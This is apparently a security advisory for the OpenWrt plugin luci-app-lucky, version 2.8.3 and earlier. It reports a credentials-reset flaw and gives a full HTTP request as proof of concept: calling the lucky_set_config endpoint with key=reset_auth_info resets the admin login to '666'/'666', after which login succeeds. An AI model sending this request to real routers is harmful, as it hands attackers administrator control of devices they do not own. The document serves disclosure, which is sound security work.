

## Lucky OpenWrt plugin "luci-app-lucky" has a hardcoded credentials vulnerability

Affected product:  *luci-app-lucky* <= 2.8.3

### Product Information

project: https://github.com/gdy666/luci-app-lucky

Location of the vulnerability: https://github.com/gdy666/luci-app-lucky/blob/main/luci-app-lucky/luasrc/controller/lucky.lua

### Vulnerability Description


When handling the `lucky_set_config` request, if the `key` is `reset_auth_info`, the function resets the dministrator account and password to the fixed value `666`. This leads to a hardcoded credentials vulnerability, allowing attackers to log into the administrator system using the default account and password.


Before the attack, set the account to `admin` and the password to `hrgdsf`. Attempt to log in to the backend management system using the account `666` and password `666`,, which results in a login failure. 


Then, create the following payload and execute the attack. 

```http
GET /cgi-bin/luci/admin/services/lucky_set_config/?key=reset_auth_info HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=da6ccf9ce82e77c3bbd5c12f6ce19ea0


```

Successfully change the account to `666` and the password to `666`. 




 Verify the result, and the login is successful.


